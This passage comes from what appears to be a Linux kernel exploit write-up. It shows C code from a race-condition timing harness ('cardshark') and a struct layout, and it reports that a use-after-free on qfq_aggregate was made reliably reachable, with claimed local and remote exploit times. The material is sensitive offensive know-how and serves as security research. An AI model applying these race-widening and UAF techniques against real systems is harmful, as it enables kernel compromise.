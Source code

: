 ```c
    pinCPU(0);
    pthread_create(&thrs[1],0,thr_racer,0);
    while(!flag1 || !flag2);
    flag3 = 1;
    pthread_join(thrs[0],0);
    pthread_join(thrs[1],0);
}
void cardshark(long long align_time){
    flag1 = flag2 = flag3 = 0;
    if(align_time  > 0 )
      racer_delay = align_time;
    else
      racee_delay = -align_time;
    race_attemp();
}
```


We couldn’t reliably hit the race without CARDSHARK/BLIND-SHARK. These
techniques turned an uncertain race into a practical one: with CARDSHARK we
achieved a local exploit in ~15 seconds on average, and with BLIND-SHARK we
landed the remote exploit in ~24 minutes.

# Novel Techniques makes UAF-Unlink to ACE: LL_ATK and NPerm

By combining academic race-condition techniques, we reliably hit the bug and
obtain a use-after-free (UAF) on struct `qfq_aggregate`, which is in the
kmalloc-128 slab:

```c
struct qfq_aggregate {
	struct hlist_node          next;                 /*     0  0x10 */
	u64                        S;                    /*  0x10   0x8 */
	u64                        F;                    /*  0x18   0x8 */
	struct qfq_group *         grp;                  /*  0x20   0x8 */
	u32                        class_weight;         /*  0x28   0x4 */
	int                        lmax;                 /*  0x2c   0x4 */
	u32                        inv_w;                /*  0x30   0x4 */
	u32                        budgetmax;            /*  0x34   0x4 */
	u32                        initial_budget;       /*  0x38   0x4 */
	u32                        budget;               /*  0x3c   0x4 */
	/* --- cacheline 1 boundary (64 bytes) --- */
	int                        num_classes;          /*  0x40   0x4 */

	/* XXX 4 bytes hole, try to pack */

	struct list_head           active;               /*  0x48  0x10 */
	struct hlist_node          nonfull_next;         /*  0x58  0x10 */

	/* size: 104, cachelines: 2, members: 13 */
	/* sum members: 100, holes: 1, sum holes: 4 */
	/* last cacheline: 40 bytes */
};
```


[1]: https://www.usenix.org/system/files/usenixsecurity24-han-tianshuo.pdf
[2]: https://www.usenix.org/system/files/sec21-lee-yoochan.pdf
[3]: https://lore.kernel.org/all/aGIAbGB1VAX-M8LQ@xps/
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=462dbc9101ac
[5]: https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5
[6]: https://dl.acm.org/doi/proceedings/10.1145/3623652